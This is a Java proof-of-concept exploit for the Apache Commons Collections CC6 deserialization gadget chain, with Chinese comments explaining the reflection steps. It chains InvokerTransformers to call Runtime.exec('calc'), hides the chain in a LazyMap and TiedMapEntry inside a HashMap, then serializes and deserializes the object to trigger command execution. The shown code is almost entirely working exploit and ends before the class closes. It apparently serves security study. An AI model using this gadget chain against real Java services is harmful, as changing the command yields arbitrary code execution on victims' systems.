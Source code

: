 ### PoC

```java
package cc.cc6;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

import java.io.*;
import java.util.HashMap;
import java.lang.reflect.Field;

public class exp {
    public static void unserialize(String filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object o = ois.readObject();
        ois.close();
        System.out.println("Finish unserialize");
    }
    public static void serialize(Object o, String filename) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(filename));
        oos.writeObject(o);
        oos.close();
        System.out.println("Finish serialize");
    }
    public static void main(String[] args) throws Exception {
        Transformer transformer[]= new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        HashMap hashMap = new HashMap();

        // 设置为ConstantTransformer 防止在put时触发transform
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(hashMap, new ConstantTransformer(0));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "cc6");
        HashMap hashMap1 = new HashMap();
        hashMap1.put(tiedMapEntry, "cc6");

        // 反射修改 LazyMap 的 factory 为构造的 chainedTransformer
        Class clazz=LazyMap.class;
        Field lazyfact=clazz.getDeclaredField("factory");
        lazyfact.setAccessible(true);
        lazyfact.set(lazyMap,chainedTransformer);

        // 反射修改 LazyMap 的 map 为空
        // LazyMap的map继承自父类 org.apache.commons.collections.map.AbstractMapDecorator
        clazz=clazz.getSuperclass();
        Field lazymap=clazz.getDeclaredField("map");
        lazymap.setAccessible(true);
        HashMap hashMap2 = new HashMap();
        lazymap.set(lazyMap,hashMap2);

        serialize(hashMap1,"cc6.bin");
        unserialize("cc6.bin");
```